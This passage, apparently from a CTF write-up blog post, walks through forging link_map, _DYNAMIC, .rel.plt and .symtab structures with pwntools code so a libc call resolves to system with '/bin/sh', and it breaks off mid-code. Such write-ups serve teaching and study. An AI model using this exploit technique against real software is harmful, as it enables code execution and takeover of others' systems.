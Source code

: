 #### Forge DT_JMPREL, DT_SYMTAB, and DT_STRTAB

Tracking the `link_map` on gdb

{% include figure.liquid loading="eager" path="/assets/img/posts/2022-04-04-ctf-zip-parser/images/link_map_rel_plt.png" class="img-fluid rounded z-depth-1" zoomable=true %}

1. GOT[2], ptr to `link_map`
2. the `link_map`
3. `l_info[23]` in `link_map`, ptr to DT_JMPREL in \_DYNAMIC
4. DT_JMPREL in \_DYNAMIC, ptr to DT_JMPREL. The struct contains `d_tag`,
   and `d_val`, 16 bytes in total.
5. DT_JMPREL, the `.rel.plt` table, we can tell `0x404018` at the first entry
   is the address for `strcpy@got`

So we need to make a struct for fake \_DYNAMIC, and a struct for fake `.rel.plt`

```python
# DT_JMPREL in _DYNAMIC
_jmprel_dyn = flat([
    0,  # d_tag
    some_addr  # d_val, ptr to DT_JMPREL
])

# DT_JMPREL
jmprel = flat([
    # normally this points to the real GOT, now we need an area to read/write.
    some_addr,  # rela->r_offset
    7,  # rela->r_info, 7>>32=0, points to index 0 of .symtab
    0  # # rela->r_addend
]),
```

DT_SYMTAB and DT_STRTAB works almost the same. We need a struct for fake
DT_SYMTAB in \_DYNAMIC, a struct for fake `.symtab`, and a `\bin\sh\00` string.

Merge the forged tables together, we end up with the following `forge_data`.
For no good reason, I use `.bss + 0x100` to write the forge data.

```python
BITMAP_64 = (1 << 64) - 1

forge_area = elf.get_section_by_name(".bss")["sh_addr"] + 0x100

# offset between system and target_func
target_func = 'atoi'
l_addr = libc.sym['system'] - libc.sym[target_func]

forge_data = flat({
    # link_map
    0x0: l_addr & BITMAP_64,  # l_addr
    0x68: forge_area,  # l_info[5], ptr to DT_STRTAB in _DYNAMIC
    # we won't use it so any writable area
    0x70: forge_area + 0x38,  # l_info[6], ptr to DT_SYMTAB in _DYNAMIC
    0xf8: forge_area + 0x8,  # l_info[23], ptr to DT_JMPREL in _DYNAMIC

    # _DYNAMIC
    # for DT_JMPREL
    0x8: flat([
        0,  # d_tag
        forge_area + 0x18  # d_val, ptr to DT_JMPREL
    ]),
    # for DT_SYMTAB
    0x38: flat([
        0,  # d_tag
        elf.got[target_func] - 0x8  # d_val, ptr to DT_SYMTAB
        # s.t. st_value pts to the target function in GOT
```